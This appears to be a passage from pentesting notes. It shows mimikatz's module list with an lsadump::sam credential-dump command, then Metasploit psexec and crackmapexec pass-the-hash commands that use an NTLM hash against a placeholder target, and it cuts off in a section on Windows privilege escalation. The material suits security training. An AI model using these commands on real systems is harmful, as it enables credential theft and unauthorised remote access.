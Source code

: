 ```powershell

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam

# this is all mimikatz modules
crypto  -  Crypto Module
        sekurlsa  -  SekurLSA module  [Some commands to enumerate credentials...]
        kerberos  -  Kerberos package module  []
             ngc  -  Next Generation Cryptography module (kiwi use only)  [Some commands to enumerate credentials...]
       privilege  -  Privilege module
         process  -  Process module
         service  -  Service module
         lsadump  -  LsaDump module
              ts  -  Terminal Server module
           event  -  Event module
            misc  -  Miscellaneous module
           token  -  Token manipulation module
           vault  -  Windows Vault/Credential module
     minesweeper  -  MineSweeper module
             net  -
           dpapi  -  DPAPI Module (by API or RAW access)  [Data Protection application programming interface]
       busylight  -  BusyLight Module
          sysenv  -  System Environment Value module
             sid  -  Security Identifiers module
             iis  -  IIS XML Config module
             rpc  -  RPC control of mimikatz
            sr98  -  RF module for SR98 device and T5577 target
             rdm  -  RF module for RDM(830 AL) device
             acr  -  ACR Module
```

```bash
# Pass the hash attack
meterpreter > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set smbuser ahmed
msf6 exploit(windows/smb/psexec) > set smbpass f0e181e88ca235d83e3633a50c274eec
msf6 exploit(windows/smb/psexec) > set rhosts {Target_Ip}
msf6 exploit(windows/smb/psexec) > set target Native\ upload 
msf6 exploit(windows/smb/psexec) > run
# Or
┌──(ahmed㉿kali)-[~]
└─$ crackmapexec smb {Target_Ip} -u ahmed -H "f0e181e88ca235d83e3633a50c274eec" -X "ipconfig"
```
### **7-Identifying Windows Privilege Escalation Vulnerabilities**
- In order to elevate your privileges on Windows, you must first, identify privilege escalation vulnerabilities that exist on the target system.
- This process will differ greatly based on the type of target you gain access to. Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system’s unique configuration.
- This process can be quite tedious and time consuming and as a result, it is recommended to automate the processes of identifying privilege escalation vulnerabilities. This can be done through the use of various automation scripts. PrivescCheck 